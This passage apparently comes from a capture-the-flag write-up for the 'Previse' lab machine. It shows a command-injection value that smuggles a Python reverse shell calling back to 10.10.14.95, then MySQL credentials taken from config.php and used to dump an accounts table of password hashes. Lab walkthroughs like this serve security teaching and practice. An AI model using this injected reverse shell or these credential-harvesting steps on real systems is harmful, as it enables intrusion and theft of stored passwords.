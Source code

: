 ```
delim=comma; python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.95",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

MySQL credentials are discovered in `config.php`
```
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```

Use the reverse shell access and MySQL credentials to view the MySQL database.
```
$ mysql -u root -p
Enter password: mySQL_p@ssw0rd!:)

mysql> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| previse            |
| sys                |
+--------------------+

mysql> USE previse;
mysql> SHOW TABLES;
+-------------------+
| Tables_in_previse |
+-------------------+
| accounts          |
| files             |
+-------------------+

mysql> SELECT * FROM accounts;
+----+-------------+------------------------------------+---------------------+
| id | username    | password                           | created_at          |
+----+-------------+------------------------------------+---------------------+
|  1 | m4lwhere    | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | carlos      | $1$🧂llol$8kATL8vlfBaLb21HUSqDc. | 2021-09-23 06:22:21 |
+----+-------------+------------------------------------+---------------------+
```
